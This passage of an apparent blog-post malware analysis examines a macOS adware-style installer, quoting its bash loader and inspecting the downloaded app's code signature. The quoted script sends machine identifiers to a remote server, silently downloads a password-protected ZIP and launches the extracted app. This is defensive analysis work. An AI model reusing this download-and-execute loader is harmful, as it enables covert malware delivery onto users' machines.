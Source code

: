     $ sw_vers -productVersion
    10.14.5
    $ uuidgen
    769F2AAE-47D3-4EF4-BB6E-64B6742F3662
    $ ioreg -rd1 ioreg -rd1 -c IOPlatformExpertDevice | grep -o '"IOPlatformUUID" = "\(.*\)"'
    XXXXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXX

Next comes the interesting part. Here we actually download and execute whatever the server gives us.

```bash
url="http://${APP_DOMAIN}/${APP_ROUTE}?mid=${machine_id}&s=${session_guid}&o=${os_version}&p=${ENC_PASS}"
tmp_path="$(mktemp /tmp/XXXXXXXXX)"
curl -f0L "${url}" >/dev/null 2>&1 >> ${tmp_path} 
app_dir="$(mktemp -d /tmp/XXXXXXXX)/" 
unzip -P "${unzip_password}" "${tmp_path}" -d "${app_dir}" > /dev/null 2>&1 
rm -f ${tmp_path} 
file_name="$(grep -m1 -v "*.app" <(ls -1 "${app_dir}"))" 
volume_name="$(echo -n "${PWD}" | sed -E -n 's@^(/Volumes/[^/]+)/.*@\1@p')" 
volume_name="${volume_name// /%20}" 
chmod +x "${app_dir}${file_name}/Contents/MacOS"/* 
open -a "${app_dir}${file_name}" --args "s" "${session_guid}" "${volume_name}"
```

Note that they pass the data on to the server as GET parameters. They make a temporary dir, download something to that with `curl`, forcing HTTP 1.0 and a silent failure. Next they unzip it with the password, remove the downloaded file, and eventually launch it. Can we see what's going on here? Hell yeah we can.

So, I ended up just hardcoding some values into the script, and running it in a secure Linux container. Just to be safe. Interestingly, every time I run the script, it gives a different ZIP file. 

    f47b360433f1f696c7d0edc0dcd274562d200baa36ff479b148eab5296684cbe  run1.zip
    149f43daef9c4ac9ee17ffa108b392aa86fb230e128c6612583d52f47ea91af7  run2.zip
    add0beb0535945ab85d3ffda97248975d8dff2ddb7560eefc19ee025f8f62b11  run3.zip

However, they all seemed to extract just fine into an `Installer.app` folder, and when comparing the different extracted versions with `diff`, it seems like they are identical.

    $ diff -r Installer.app Installer2.app

The date stamp on the files is June 10th, which is only about a week ago at the time of this writing, so it's fairly recent. There are multiple things of interest at this point. First, who signed these Apps? I would guess that it's maybe the same person that signed the earlier thing, but I'd like to check. And then, obviously: what does it do? I wonder if they still have some shitty bash scripts or if this thing is actually compiled, which would be a good excuse to get out a disassembler. 

I zipped the `Installer.app` up, copied it out of the docker container and onto my Mac Mini, where I extracted it again and checked what the signature would be.

    Brutus:malware pelsen$ codesign -dvv Installer.app/
    Executable=/private/tmp/malware/Installer.app/Contents/MacOS/Installer
    Identifier=com.inst
    Format=app bundle with Mach-O thin (x86_64)
    CodeDirectory v=20200 size=1256 flags=0x0(none) hashes=32+5 location=embedded
    Signature size=4705
    Authority=Developer ID Application: Edward Furlhoper (XL8ZVTY2W2)
    Authority=Developer ID Certification Authority
    Authority=Apple Root CA
    Info.plist entries=24
    TeamIdentifier=XL8ZVTY2W2
    Sealed Resources version=2 rules=13 files=12
    Internal requirements count=1 size=200
